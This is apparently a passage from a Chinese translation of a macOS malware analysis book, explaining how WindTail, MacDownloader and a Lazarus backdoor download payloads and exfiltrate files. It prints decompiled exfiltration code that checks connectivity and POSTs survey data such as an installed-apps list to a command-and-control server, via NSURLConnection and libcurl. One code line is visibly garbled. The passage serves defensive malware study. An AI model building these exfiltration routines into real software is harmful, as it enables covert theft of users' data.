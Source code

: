 清单 3-13：文件下载连接（WindTail）

一旦 WindTail 将下载的文件保存到受感染的系统中，它会解压文件并执行它。

恶意软件还可能将文件从受害者的计算机上传到攻击者的服务器。通常，这些上传的文件包含有关感染系统的信息（调查）或可能引起攻击者兴趣的用户文件。

例如，在本章早些时候我提到的 MacDownloader，它收集系统相关数据，例如已安装的应用程序，并将其保存到磁盘。然后，它通过一个名为`SendCollectedDataTo:withThisTargetId:`的方法，将这些调查数据通过`uploadFile:ToServer:withTargetId:`方法外泄到攻击者的指挥和控制服务器上（清单 3-14）：

```
-AuthenticationController SendCollectedDataTo:withThisTargetId: {
   ...

   if (([CUtils hasInternet:0x0] & 0x1 & 0xff) != 0x0) { 
      ...
      file ="[@"/tmp/applist."xt" retain];
      [CUtils uploadFile:file ToServer:0x0 withTargetId:0x0]; 
      ...
      }
}
```

清单 3-14：文件外泄封装器（MacDownloader）

如清单 3-14 所示，恶意软件首先调用一个方法来确保它已连接到互联网。如果连接正常，调查文件*applist.txt*将通过`uploadFile:`方法上传。检查该方法中的代码发现，它使用了 Apple 的`NSMutableURLRequest`和`NSURLConnection`类通过 HTTP `POST`请求上传文件（清单 3-15）：

```
+(char)uploadFile:(void *)arg2 ToServer:(void *)arg3 withTargetId:(void *)arg4 {
    ...

    request = [[NSMutableURLRequest requestWithURL:var_58 cachePolicy:0x0 
                timeoutInterval:var_50] retain];

    [request setHTTPMethod:@"POST"];
    [request setAllHTTPHeaderFields:var_78];
    [request setHTTPBody:var_88];

 rax = [NSURLConnection sendSynchronousRequest:request
           returningResponse:0x0 error:&var_A0];
    ...
}
```

清单 3-15：文件外泄（MacDownloader）

当然，还有其他编程方法可以下载和上传文件。在各种 Lazarus 集团的恶意软件中，`curl`库被用来执行此任务。例如，在他们的一个持久后门中，我们可以找到一个名为`post`的方法，通过`curl`库将文件（发送）到攻击者控制的服务器（清单 3-16）。

```
handle = curl_easy_init(); 

curl_easy_setopt(handle, 0x2727, ...); 
curl_easy_setopt(handle, 0x4e2b, ...); 
curl_easy_setopt(handle, 0x2711, ...); 
curl_easy_setopt(handle, 0x271f, postdata); 

curl_easy_perform(handle); 
```
